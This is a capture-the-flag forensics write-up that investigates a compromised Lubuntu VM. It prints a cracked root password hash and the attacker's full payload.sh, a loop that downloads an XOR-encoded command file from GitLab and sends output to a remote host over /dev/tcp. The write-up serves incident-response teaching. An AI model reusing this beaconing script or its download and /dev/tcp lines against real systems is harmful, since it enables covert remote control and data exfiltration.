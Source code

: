 # Challenge Name: DFIR

![date](https://img.shields.io/badge/date-24.04.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![forensics category](https://img.shields.io/badge/category-Forensics-blueviolet.svg)   
![value](https://img.shields.io/badge/value-400-blue.svg)  


## Description

Our Lubuntu server has been breached! We recieved an alert about it communicating with malicious servers and we saw a SIGNIFICANT increase in CPU usage. We SSHed in and saw that changes had been made to the / directory. We need to know how this attacker got in (so we can keep him out in the future) and what he was using our server for...

uname: "victem" (ya, we kinda jinxed ourselves with that name) pw: "correct-horse-battery-staple"

Download: https://drive.google.com/file/d/16sV8pXSrG22KL4zJ9VrpZTcZAs_N9XYw/view 

## Detailed solution  

Start by importing the virtualbox machine and run it 

![image](https://user-images.githubusercontent.com/72421091/116092049-fde5d280-a694-11eb-93e7-3d1c3011ebac.png)

Let's SSH to the machine using the credentials in description ```victem / correct-horse-battery-staple``` get more confortable 

Our machine is a ```Lubuntu 18.04 LTS``` and the linux kernel version is ```4.15.0-20``` 

![image](https://user-images.githubusercontent.com/72421091/116094116-ca0bac80-a696-11eb-985f-8ee3b03d722e.png)

The description mention that that changes had been made to the / directory so let's go check it 

![image](https://user-images.githubusercontent.com/72421091/116096118-89149780-a698-11eb-9b94-39c013a822ee.png)

The file ```cluster-crack.pot``` is suspicious let's read it  

```
cat cluster-crack.pot

$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

We can see a decrypted linux hash password which is ```toor``` which is a commun default root password 

The POT file is where john stores passwords that it has already cracked for display with the "--show" command  

So the attacker used john the decrypt the users hash password 

Checking the passwd file we can see the users root and victem 

![image](https://user-images.githubusercontent.com/72421091/116098680-caa64200-a69a-11eb-835c-9be03c5a1c45.png)

Let's switch to ```root``` with the password ```toor``` and check the bash history 

![image](https://user-images.githubusercontent.com/72421091/116099769-d2b2b180-a69b-11eb-9ff3-ac36623743b5.png)  

NB : the line 6 is wrong it's sould be ```wget https://gitlab.com/thehacker1/payload/-/blob/master/.payload.sh```  

![image](https://user-images.githubusercontent.com/72421091/116101630-82d4ea00-a69d-11eb-9d94-b4d6f74c5c25.png)

We can see two attacks, running a payload.sh and cracking the shadow file hashes using john and the wordlist rockyou.txt

The files has been downloaded from a gitlab repository https://gitlab.com/thehacker1/payload/-/tree/master 

![image](https://user-images.githubusercontent.com/72421091/116103519-312d5f00-a69f-11eb-997f-9c19f201bccd.png)

payload.sh file 

```bash
#!/bin/bash

W=$((15*60))
K=120

while true
do
	echo "sleeping for $W seconds"
	sleep $W
	rm .encrypted_csv.data
	wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
	echo "downloaded file"
	F="./.encrypted_csv.data"
	hexdump -v -e '/1 "%u\n"' $F | while read B; do
		E=$((K^B))
		C=$(printf \\$(printf '%03o' $E))
		echo -n $C >> encrypted.csv
	done
	echo "decrypted newest command"
	S=$(cat encrypted.csv)
	rm encrypted.csv
	S="${S::-1}"
	D=,
	S=$S$D
	array=();
	while [[ $S ]]; do
		array+=( "${S%%"$D"*}" );
		S=${S#*"$D"};
	done;
	declare -a array
	M=${array[0]}
	I=${array[1]}
	P=${array[2]}
	M=${M##WPI}
	echo "routing message to $I:$P"
	echo "$M" > /dev/tcp/$I/$P
done
```

We can see some steps :

- Download the .encrypted_csv.data file from the gitlab repository using wget
- Decrypting the file : convert .encrypted_csv.data to decimal values, xor using K=120, converto to octal values and print the ascii charactere
- 




## Flag

```
WPI{1n53cUR3_5tud3Nts}
```
